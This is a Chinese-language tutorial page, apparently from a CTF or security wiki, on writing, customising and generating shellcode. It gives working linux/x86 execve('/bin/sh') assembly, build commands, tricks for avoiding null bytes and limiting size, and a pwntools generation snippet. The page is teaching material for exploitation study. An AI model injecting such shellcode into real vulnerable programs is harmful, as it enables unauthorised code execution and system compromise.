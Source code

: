 # Shellcode

Shellcode 是一小段代码, 在漏洞利用后用于注入到目标程序中执行. 常见的一个功能是获取 shell 因此得名.  

## 编写

以下是一段简单的 shellcode 代码:  

```asm
; linux/x86 execve("/bin/sh", 0, 0) 21 bytes
global _start
_start:
    xor  edx, edx ; argv = 0
    xor  ecx, ecx ; envp = 0
    push ecx
    push "/sh"
    push "/bin"
    mov  ebx, esp ; pathname = "/bin/sh"
    mov  al, 0xb  ; execve NR
    int  0x80     ; syscall
```

可以使用在线工具 [Compiler Explorer](https://godbolt.org/) 进行编译, 在 Linux 下可以使用 [NASM](https://www.nasm.us/) 进行编译:  

```sh
nasm -f elf32 shellcode.asm             # 编译
ld -m elf_i386 -o shellcode shellcode.o # 链接
objdump -d shellcode                    # 打印反汇编结果
```

设置参数并将系统调用的 NR(number) 写入指定寄存器后触发中断即可. 其他指令集的用法有所不同, 具体使用方式请参考 [Linux 系统调用](https://publicki.top/syscall.html).  

## 定制

根据漏洞的具体情况, shellcode 会受到一定限制. 下面将简要说明如何满足这些限制.  

### 限制能使用的字符

以常见的 bad char 0x00('\0') 为例, 观察二进制代码会发现 `push "/sh"` 由于参数大小为 24 比特, 因此被当作 imm32. 最后多出的一字节使用 0 填充, 产生了 0x00, 使得该 shellcode 无法作为一个 C-style 的字符串.  
将该命令改为 `push "//sh` 即可在不影响程序运行/不增加大小的情况下消除这个 0x00.  
传递给 execve 的两个参数也为 0, 这里使用 xor 来将寄存器的值改为 0, 避免直接以 0 作为立即数而导致产生 0x00.  

### 限制长度

手工编写专用的 shellcode, 以实现体积最小化. 还可以将体积较大的 shellcode 存放在其他位置(对大小不敏感, 但不能执行), 然后搜索并执行.  

!!! info "CTF"
    可能限制系统调用的使用, 此时需要编写专门的 shellcode 只通过可用的系统调用完成任务.  

## 生成

- 利用 [MSF](./Metasploit.md) 生成 shellcode, 可定制.
- 利用 [ALPHA3](https://github.com/TaQini/alpha3) 生成由可见字符集构成的 shellcode.
- 利用 [pwntools](https://github.com/Gallopsled/pwntools) 生成特定架构和系统的 shellcode, 不可定制.

    ```py
    from pwn import *
    context(arch = 'i386', os = 'linux') # linux/x86
    print shellcraft.sh()      # 输出 shellcode 汇编代码
    print asm(shellcraft.sh()) # 输出 shellcode 二进制代码
    ```

## 参见

- [Exploit Database Shellcodes](https://www.exploit-db.com/shellcodes)
- <http://shell-storm.org/shellcode/>

